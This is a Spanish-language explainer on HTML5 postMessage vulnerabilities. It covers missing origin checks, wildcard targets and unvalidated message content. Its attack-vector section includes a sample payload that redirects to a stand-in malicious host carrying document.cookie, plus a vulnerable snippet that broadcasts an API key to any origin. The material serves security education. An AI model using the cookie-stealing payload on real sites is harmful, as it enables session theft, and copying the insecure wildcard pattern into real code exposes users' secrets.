 # HTML5 postMessage Vulnerability

## Descripción

La vulnerabilidad de HTML5 postMessage ocurre cuando una aplicación web implementa la API `window.postMessage()` de forma insegura, sin validar adecuadamente el origen de los mensajes recibidos o enviando mensajes a cualquier origen (`*`). Esto puede permitir que un atacante realice acciones no autorizadas, acceda a información sensible o ejecute código malicioso en el contexto de la aplicación vulnerable.

## Concepto

La API postMessage es un mecanismo proporcionado por HTML5 para permitir la comunicación segura entre ventanas o iframes, incluso cuando estos tienen diferentes orígenes. Está diseñada para superar las restricciones de la política del mismo origen (Same-Origin Policy) de forma controlada.

El problema de seguridad surge cuando los desarrolladores:
1. No verifican el origen (`event.origin`) de los mensajes recibidos
2. Usan `'*'` como destino al enviar mensajes, permitiendo que cualquier origen los reciba
3. No validan o sanitizan adecuadamente el contenido de los mensajes antes de procesarlos

## Vectores de Ataque

### 1. Ataques de inyección a través de mensajes

Un atacante puede enviar mensajes con estructuras o valores maliciosos que, al ser procesados sin validación, pueden provocar comportamientos no deseados:

```javascript
// Desde un iframe controlado por el atacante
window.parent.postMessage({
  action: 'executeAction',
  command: 'document.location="https://malicious-site.com?cookie="+document.cookie'
}, '*');
```

### 2. Robo de información sensible

Si la aplicación envía datos sensibles a través de postMessage sin verificar el destino:

```javascript
// Código vulnerable en la aplicación
window.postMessage({ 
  userInfo: { 
    name: 'Usuario', 
    apiKey: 'secret-api-key-123' 
  } 
}, '*');

// Atacante puede capturar esta información desde cualquier iframe o ventana
```
